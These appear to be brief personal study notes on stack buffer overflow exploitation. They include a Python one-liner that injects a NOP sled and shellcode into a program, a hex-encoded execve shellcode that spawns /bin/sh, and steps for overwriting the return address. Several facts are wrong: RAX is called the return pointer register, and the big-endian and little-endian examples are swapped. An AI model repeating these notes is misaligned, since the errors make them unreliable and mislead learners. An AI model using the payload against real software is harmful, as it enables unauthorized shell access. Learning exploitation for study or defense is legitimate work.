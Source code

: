 
##### Registers
RAX: return pointer register, the target.

##### Endianness
Endianness is the order bytes are stored, with big-endian storing the most significant byte first, and little-endian storing the least significant byte first.
`0x12345678` in big-endian: `0x78` `0x56` `0x34` `0x12`
`0x12345678` in little-endian: `0x12` `0x34` `0x56` `0x78`

##### Shellcode injection
To inject the shellcode in the memory:
`python -c "print ('\x90' * no_of_nops + shellcode + random_data * no_of_random_data + memory address)" | ./program`
standard shell code: `\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05`

##### Shellcode execution
First, figure out the return addres of the memory you'll be overwriting
Second, find the total buffer between the RAX and the input field.
Third, execute the buffer overflow, overwrite everything up to the RAX.
![[Pasted image 20221109232554.png]]
